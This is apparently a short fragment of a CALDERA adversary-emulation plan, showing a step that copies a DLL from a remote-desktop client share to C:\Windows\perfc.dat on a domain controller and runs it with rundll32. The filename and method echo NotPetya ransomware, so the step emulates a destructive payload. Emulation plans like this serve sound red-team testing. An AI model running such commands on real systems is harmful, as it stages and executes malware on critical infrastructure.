 ```
copy \\TSCLIENT\X\SharpNP.dll;
C:\Windows\perfc.dat;dir C:\Windows\perfc.dat;
```

## Step 19

- The CALDERA agent running on the domain controller will spawn a separate PowerShell process to run the following:

```
rundll32.exe C:\Windows\perfc.dat,"#1"
```
